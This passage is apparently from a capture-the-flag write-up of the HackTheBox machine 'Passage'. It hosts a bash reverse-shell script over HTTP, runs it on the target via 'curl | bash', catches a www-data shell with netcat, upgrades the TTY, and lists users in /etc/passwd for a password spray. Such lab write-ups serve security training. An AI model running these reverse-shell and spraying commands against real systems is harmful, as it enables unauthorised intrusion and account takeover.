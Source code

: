 #### Get a shell

Host reverse shell script

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage]
└─$ mkdir -p www && cd www && echo "/bin/bash -c 'bash -i >& /dev/tcp/$(pt get lhost)/1111 0>&1'" > index.html && fuser -k 80/tcp 2>/dev/null; python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
command > curl 10.10.14.9 | bash
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.9] from (UNKNOWN) [10.129.19.253] 42346
bash: cannot set terminal process group (1703): Inappropriate ioctl for device
bash: no job control in this shell
www-data@passage:/var/www/html/CuteNews/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<tml/CuteNews/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@passage:/var/www/html/CuteNews/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Passage/exploit]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111
                               export TERM=xterm
www-data@passage:/var/www/html/CuteNews/uploads$ stty rows 50 columns 209
www-data@passage:/var/www/html/CuteNews/uploads$
```

## From www-data to paul


### Password spray

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
```

I will try the password `atlanta1` on all users

```bash
www-data@passage:/var/www/html/CuteNews/uploads$ cat /etc/passwd|grep sh$|awk -F':' '{print$1}'
root
nadav
paul
```
